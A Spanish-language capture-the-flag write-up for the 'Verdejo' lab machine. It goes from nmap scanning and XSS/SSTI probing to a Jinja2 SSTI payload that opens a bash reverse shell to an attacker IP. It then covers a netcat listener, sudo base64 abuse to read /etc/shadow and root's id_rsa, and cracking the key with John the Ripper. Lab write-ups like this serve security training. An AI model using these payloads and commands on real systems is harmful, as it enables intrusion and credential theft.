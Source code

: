 ```yaml
---
description: >-
  ✍️ Autor: The Hacker Labs🔍 Dificultad: Fácil  📅 Fecha de creación:
  22/05/2024
---
```


# Verdejo

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (835).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** y el **puerto 8089** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,8089 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (837).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea la de por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/image (836).png" alt=""><figcaption></figcaption></figure>

Vemos a ver que corre por el **puerto 8089**.

<figure><img src="../../.gitbook/assets/image (838).png" alt=""><figcaption></figcaption></figure>

Si enviamos el texto nos sale esto.

<figure><img src="../../.gitbook/assets/image (839).png" alt=""><figcaption></figcaption></figure>

Comenzamos verificando si es posible ejecutar un ataque XSS.

```bash
<script>alert("hacked")</script>
```

<figure><img src="../../.gitbook/assets/image (840).png" alt=""><figcaption></figcaption></figure>

Probamos si es propenso a un SSTI por lo que realizamos una operación matemática que deberá mostrar el resultado.

```
{{7*7}}
```

<figure><img src="../../.gitbook/assets/image (841).png" alt=""><figcaption></figcaption></figure>

Por lo que aprovechamos eso para enviarnos una Reverse Shell.

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/192.168.255.136/443 0>&1\'').read() }}
```

Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (842).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (843).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos **SUDO** con **base64** por lo que revisamos esta [página ](https://gtfobins.github.io/gtfobins/base64/)para escalar privilegios.

```bash
sudo base64 /etc/shadow | base64 --decode
```

<figure><img src="../../.gitbook/assets/image (844).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo, notamos que el puerto SSH estaba abierto. Esto sugiere la posibilidad de que el usuario root tenga un archivo `id_rsa`. Al intentar leer este archivo utilizando la ruta predeterminada, confirmamos que efectivamente obtuvimos el `id_rsa`.

```bash
sudo base64 /root/.ssh/id_rsa | base64 --decode
```

<figure><img src="../../.gitbook/assets/image (846).png" alt=""><figcaption></figcaption></figure>

Transferimos el archivo a nuestra máquina local y, tras asignarle permisos de ejecución, intentamos establecer la conexión. Sin embargo, se nos solicitó la contraseña asociada al `id_rsa`.

```bash
chmod 600 id_rsa
```

<figure><img src="../../.gitbook/assets/image (847).png" alt=""><figcaption></figcaption></figure>

En este paso, utilizamos **ssh2john** para extraer el hash del archivo. Posteriormente, empleamos **John the Ripper** para descifrar la contraseña, siempre que esta se encuentre en nuestro diccionario. Después de un tiempo, logramos identificar la clave

```bash
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (849).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y metemos las credenciales. Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (850).png" alt=""><figcaption></figcaption></figure>
